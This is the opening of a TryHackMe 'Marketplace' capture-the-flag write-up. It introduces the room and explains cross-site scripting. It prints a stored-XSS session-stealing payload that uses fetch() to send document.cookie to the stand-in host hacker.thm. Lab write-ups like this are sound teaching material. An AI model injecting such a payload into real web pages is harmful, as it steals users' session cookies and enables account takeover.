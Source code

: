 ```yaml
---
title: THM - Marketplace
date: 2023-10-20
categories: [CTF, Fullpwn]
tags: [thm, tryhackme, xss, idor, cookies, sqli, sudo, wildcard-injection, container-escape, tar]
img_path: /assets/thm/fullpwn/marketplace/
mermaid: true
image:
    path: marketplace_banner.png
---
```


## 1 Summary

[![](https://mermaid.ink/img/pako:eNplkE1OwzAQha8yMgtSqUFlm0WlkrZQqYCo-Vt4M4onrWkyrmxHpap6ETasuR1HwA4rxM6eefPNvHcUldUkClE3dl9t0AVYrhQrnmTPxnfYwIy7lhwGY3kAeQ7S8BqedlBb14JSfEd7WBofUrmv5fkYrjIZrCMNr1IOFF_1g-R9hIAMhE1S57mFaTbRreFzD492S5yA8wbXcAnfnx9fg6IoIuUXMIYyW0zvV0kjH5ZmAIrLBL49xG9Pm2VS3kAZR4iDwcYnLXSe3EV4D3-RZY-cZy-m0RU6DQt-oyrZTEOl5YCGycHMV7ijaGKedgV0qa1ttY29tPM6c9aG_3zFVYPeT6mGFIQPLhoszurRSAxFTLRFo2Pux3ggKBE21JISRXxqdFslFJ-iDrtg5YErUQTX0VB0O42BpgbXDltR1NEinX4ASVaYMQ?type=png)](https://mermaid.live/edit#pako:eNplkE1OwzAQha8yMgtSqUFlm0WlkrZQqYCo-Vt4M4onrWkyrmxHpap6ETasuR1HwA4rxM6eefPNvHcUldUkClE3dl9t0AVYrhQrnmTPxnfYwIy7lhwGY3kAeQ7S8BqedlBb14JSfEd7WBofUrmv5fkYrjIZrCMNr1IOFF_1g-R9hIAMhE1S57mFaTbRreFzD492S5yA8wbXcAnfnx9fg6IoIuUXMIYyW0zvV0kjH5ZmAIrLBL49xG9Pm2VS3kAZR4iDwcYnLXSe3EV4D3-RZY-cZy-m0RU6DQt-oyrZTEOl5YCGycHMV7ijaGKedgV0qa1ttY29tPM6c9aG_3zFVYPeT6mGFIQPLhoszurRSAxFTLRFo2Pux3ggKBE21JISRXxqdFslFJ-iDrtg5YErUQTX0VB0O42BpgbXDltR1NEinX4ASVaYMQ)

## 2 Background Information

[The Marketplace](https://tryhackme.com/room/marketplace) room felt like a "real-world" penetration testing scenario, as it has almost no guidance at all:

>The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

And that's all there is! We are now left alone to figure out where those 🚩🚩🚩 are 🤔 !

There are a lot of concepts involved in this CTF room, so grab a strong ☕️ and let's crack on!

### 2.1 Cross-site Scripting (XSS)

**Cross-site Scripting (XSS)** is an injection attack where the payload, i.e. malicious JavaScript code, gets injected into a web application with the intention of being executed by other users.

Many payload types exist, but the one we are interested in for this room is used for **Session Stealing**, and looks like this:

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

There are also different kinds of XSS, one of them is called **Stored XSS**, which, as the name infers, stores its payload on the web application and then gets run when other users visit the page.
